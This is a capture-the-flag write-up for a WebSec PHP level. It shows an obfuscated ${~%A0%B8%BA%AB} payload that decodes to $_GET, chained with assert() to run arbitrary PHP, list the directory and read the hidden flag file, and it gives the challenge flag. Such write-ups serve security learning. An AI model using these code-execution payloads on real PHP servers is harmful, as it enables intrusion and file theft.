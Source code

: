 Little note:
finfo solved this very quickly but I wanted to do it with what I learned in the level22 writeups

From when I solved level 22 I saw a PHP trick that people were using where they would pass:
```${~%A0%B8%BA%AB}{c}();``` and ```c=phpinfo``` as a get param.
Which will do the following:
```${~%A0%B8%BA%AB}{c}();``` will transalte to ${_GET}{c}().
Now in older versions of php, it doesn't udnerstand who the constant _GET is and it assumes we are referring the actual _GET param:
![GET image](image.png)

I will also add another variable p(parameter) that will be the parameter and the final payload will be:
```${~%A0%B8%BA%AB}{c}(${~%A0%B8%BA%AB}{p});```

In older versions of php you can access arrays with {} instead of [].
Now the difference between this level and 22, is that there we have a builtin echo call on what we call, here we need to find a workaround it.

After a lot of research, I found something interesting: The assert function until PHP 8.0 calls eval on it's code.
that's what we will use

```c=assert&p=print_r(scandir("."))``` => 
```
Array
(
    [0] => .
    [1] => ..
    [2] => 0e7efcd6e821f4bb90af4e4c439001944c1769da.php
    [3] => index.php
    [4] => php-fpm.sock
    [5] => source.php
)
```

Then I got the flag with this: ```c=assert&p=print_r(file_get_contents("./0e7efcd6e821f4bb90af4e4c439001944c1769da.php"))``` =>
```$flag = 'WEBSEC{that_must_have_been_some_nifty_php_trick_you_had_there}';```